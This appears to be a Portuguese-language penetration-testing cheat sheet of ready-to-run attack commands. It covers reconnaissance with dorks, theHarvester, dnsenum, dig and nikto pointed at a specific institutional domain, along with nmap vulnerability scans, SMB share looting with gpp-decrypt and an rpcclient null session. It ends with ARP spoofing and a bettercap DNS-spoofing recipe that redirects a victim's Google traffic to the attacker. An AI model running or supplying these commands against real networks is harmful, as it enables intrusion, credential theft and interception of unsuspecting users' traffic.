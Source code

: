 done < file
--------------------------------------------------------------------------------------------------------------------
Google Hacking(dorks)---------------------------------------------------------
site:<site> allinurl:login || allinurl:login.php
site:<site> allinurl:id

THEHARVESTER-------------------------------------------------------------------
theharvester -d ifes.edu.br -l 200 -b all
-------------------------------------------------------------------------------
SMBCLIENT----------------------------------------------------------------------
smbclient -L \\\\<ip_do_windows>\\
smbclient \\\\<ip_do_windows>\\Nome_do_servidor
smb: \>RECURSE ON
smb: \>PROMPT OFF
smb: \>mget *
gpp-decrypt <hash>
NETDISCOVER--------------------------------------------------------------------
netdiscover -i wlan0 -r 192.168.15.0/24
-------------------------------------------------------------------------------
DNSENUM------------------------------------------------------------------------
dnsenum ifes.edu.br || dnsenum --enum ifes.edu.br
---------------------------------------------------------------------------------
DIG
dig any ifes.edu.br
----------------------------------------------------------------------------------
NIKTO-----------------------------------------------------------------------------
nikto -host http://ifes.edu.br
----------------------------------------------------------------------------------
DISBUSTER-------------------------------------------------------------------------
dirbuster-------------------------------------------------------------------------
CURL------------------------------------------------------------------------------
curl --head ifes.edu.br #pega o cabeçalho do site, até a versão do servidor web

NMAP------------------------------------------------------------------------------
nmap -T5 -O 192.168.15.0/24 --reason --open --exclude 192.168.15.1<=== scan rapido
nmap -sS -f -sV -Pn -O -g53 192.168.15.1 
nmap -p21 -T5 -v --script vuln 192.168.15.1
nmap -sV --script=ssl-enum-ciphers -p 443 <ip_do_windows>
nmap --script-updatedb
------------------------------------------------------------------------------------
RPCCLIENT---------------------------------------------------------------------------
rpcclient -U "" <ip_do_windows> #pressionar enter sem senha && login==sucess, null session.
ARPSPOOF----------------------------------------------------------------------------
echo "1" > /proc/sys/net/ipv4/ip_forward #para habilitar o encaminhamento de pacotes
arpspoof -i wlan0 -t <ip_alvo> <ip_gateway> 
arpspoof -i wlan0 -t <ip_gateway> <ip_alvo>
------------------------------------------------------------------------------------- 
DNSSPOOF-----------------------------------------------------------------------------
#Esse ataque serve para alterar o ip que o alvo irá acessar, por exemplo um site
> host.conf #criar o arquivo host.conf
echo "<seu_ip> /*.google.com" > host.conf
bettercap -I wlan0 -G <ip_gateway> -T <ip_alvo> --dns host.conf
#toda vez que o usuario acessar o google, ele será redirecionado para sua máquina

